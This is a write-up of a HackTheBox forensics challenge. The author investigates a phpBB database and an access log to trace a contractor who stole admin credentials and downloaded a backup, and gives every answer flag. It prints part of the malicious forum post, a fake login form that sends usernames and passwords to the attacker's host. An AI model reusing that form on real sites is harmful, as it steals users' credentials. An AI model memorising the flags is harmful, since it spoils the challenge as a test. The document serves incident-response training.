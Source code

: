 ```yaml
---
title: "Bumblebee"
description: "An external contractor has accessed the internal forum here at Forela via the Guest WiFi and they appear to have stolen credentials for the administrative user! We have attached some logs from the forum and a full database dump in sqlite3 format to help you in your investigation."
pubDate: 2024-03-15
author: "sealldev"
section: "HackTheBox"
tags: ["easy", "hackthebox-sherlock"]
image: images/htb/sherlocks/bumblebee/icon.png
---
```


**Challenge created by:** [blitztide](https://app.hackthebox.com/users/6893)

An initial look at the files shows a `access.log` and a PHPBB database.

## Task 1
> What was the username of the external contractor?

Opening `phpbb.sqlite3` with the DB Browser and going to the `phpbb_users` table, we can see a few users:
```
test
rsavage001
apoole
apoole1
```

Two users have emails:
```
apoole - apoole@contracter.net
apoole1 - apoole1@contracter.net
```

`apoole` has no `user_lastvisit` time, while `apoole1` does, indicating that `apoole` has never successfully logged in or visited a page.

Flag: `apoole1`

## Task 2
> What IP address did the contractor use to create their account?

Looking at the `user_ip` column in `phpbb_users` we can see `apoole1`'s IP address is `10.10.0.78`

Flag: `10.10.0.78`

## Task 3
> What is the post_id of the malicious post that the contractor made?

Going into the `phpbb_posts` table, there are three posts:
```
1 - This is an example post in your phpBB3 installation. Everything seems to be working. You may delete this post if...
2 - <t>Good Afternoon everyone!<br/><br/>I am new to the administration team here at forela, I'd like to take...
9 - <div><style>body {    z-index: 100;}.modal {    position:fixed;    top:0;    left:0;    height:100%;    width:100%;    z-ind...
```

I decide that the post to look into is post 9, the most suspicious looking one:

```js
...
            </div> <a id="start_here" class="anchor"></a>
            <div id="page-body" class="page-body" role="main">
                <div class="panel">
                    <div class="inner">
                        <div class="content">
                            <h3>Session Timeout</h3> <br /> <br />
                            <p>Your session token has timed out in order to proceed you must login again.</p>
                        </div>
                    </div>
                </div>
                <form action="http://10.10.0.78/update.php" method="post" id="login" data-focus="username"
                    target="hiddenframe">
                    <div class="panel">
                        <div class="inner">
                            <div class="content">
                                <h2 class="login-title">Login</h2>
                                <fieldset class="fields1">
                                    <dl>
                                        <dt><label for="username">Username:</label></dt>
                                        <dd><input type="text" tabindex="1" name="username" id="username" size="25"
                                                value="" class="inputbox autowidth"></dd>
                                    </dl>
                                    <dl>
                                        <dt><label for="password">Password:</label></dt>
                                        <dd><input type="password" tabindex="2" id="password" name="password" size="25"
                                                class="inputbox autowidth" autocomplete="off"></dd>
                                    </dl>
                                    <dl>
                                        <dd><label for="autologin"><input type="checkbox" name="autologin"
                                                    id="autologin" tabindex="4">Remember me</label></dd>
                                        <dd><label for="viewonline"><input type="checkbox" name="viewonline"
                                                    id="viewonline" tabindex="5">Hide my online status this
                                                session</label></dd>
                                    </dl>
                                    <dl>
                                        <dt>&nbsp;</dt>
                                        <dd> <input type="submit" name="login" tabindex="6" value="Login"
                                                class="button1" onclick="sethidden()"></dd>
                                    </dl>
                                </fieldset class="fields1">
                            </div>
                        </div>
                    </div>
                </form>
            </div>
...
```

Seems to be impersonating a login page!

Flag: `9`

## Task 4
> What is the full URI that the credential stealer sends its data to?

Reading the code in Task 3, the URL for the username:password form is: `http://10.10.0.78/update.php`

Flag: `http://10.10.0.78/update.php`

## Task 5
> When did the contractor log into the forum as the administrator? (UTC)

Reading the `phpbb_log` table, we can see from the IP `10.10.0.78` a `LOG_ADMIN_AUTH_SUCCESS` event at `1682506392`.

Using an [epoch time converter](https://www.epochconverter.com/), we get Wednesday, April 26, 2023 10:53:12 AM.

Flag: `26/04/2023 10:53:12`

## Task 6
> In the forum there are plaintext credentials for the LDAP connection, what is the password?

Inside the `phpbb_config` table is the entry: `ldap_password`, containing the password.

Flag: `Passw0rd1`

## Task 7
> What is the user agent of the Administrator user?

Going back to `phpbb_log`, we can see the admin user is authenticated by the IP `10.255.254.2` at `1682420947`. If we look for requests in the `access.log` file with that IP, we can see the user agent.

Flag: `Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36`

## Task 8
> What time did the contractor add themselves to the Administrator group? (UTC)

Again inside `phpbb_log`, we can see an event `LOG_USERS_ADDED` which does the following: `a:2:{i:0;s:14:"Administrators";i:1;s:6:"apoole";}`.

This is at `1682506431`, which is our timestamp (once converted).

Flag: `26/04/2023 10:53:51`

## Task 9
> What time did the contractor download the database backup? (UTC)

Reading the `access.log` file for requests from `10.10.0.78`, at the end are these requests:
```
10.10.0.78 - - [26/Apr/2023:12:01:09 +0100] "GET /adm/index.php?sid=eca30c1b75dc3eed1720423aa1ff9577&i=acp_database&mode=backup HTTP/1.1" 200 3770 "http://10.10.0.27/adm/index.php?sid=eca30c1b75dc3eed1720423aa1ff9577&i=25" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
10.10.0.78 - - [26/Apr/2023:12:01:38 +0100] "GET /store/backup_1682506471_dcsr71p7fyijoyq8.sql.gz HTTP/1.1" 200 34707 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
10.10.0.78 - - [26/Apr/2023:12:01:52 +0100] "GET /ucp.php?mode=logout&sid=eca30c1b75dc3eed1720423aa1ff9577 HTTP/1.1" 302 949 "http://10.10.0.27/adm/index.php?sid=eca30c1b75dc3eed1720423aa1ff9577&i=acp_database&mode=backup" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
10.10.0.78 - - [26/Apr/2023:12:01:53 +0100] "GET /index.php?sid=be3cc6e2de08bafa4044f552813e2cbe HTTP/1.1" 200 3796 "http://10.10.0.27/adm/index.php?sid=eca30c1b75dc3eed1720423aa1ff9577&i=acp_database&mode=backup" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"
```

The specific request of interest is `/store/backup_...sql.gz`, which is at: 26/Apr/2023:12:01:38 +0100

The challenge asks for UTC so I subtract the +0100.

Flag: `26/04/2023 11:01:38`

## Task 10
> What was the size in bytes of the database backup as stated by access.log?

Inside the requests for the `/store/backup_...sql.gz`, we can see the following splitup for the format:

`IP - - [TIME] - REQUEST RESPONSE_CODE LENGTH REQUEST_URL USER_AGENT`

So our length is: `34707`

Flag: `34707`

## The End!

![Success](images/htb/sherlocks/bumblebee/submitted.png)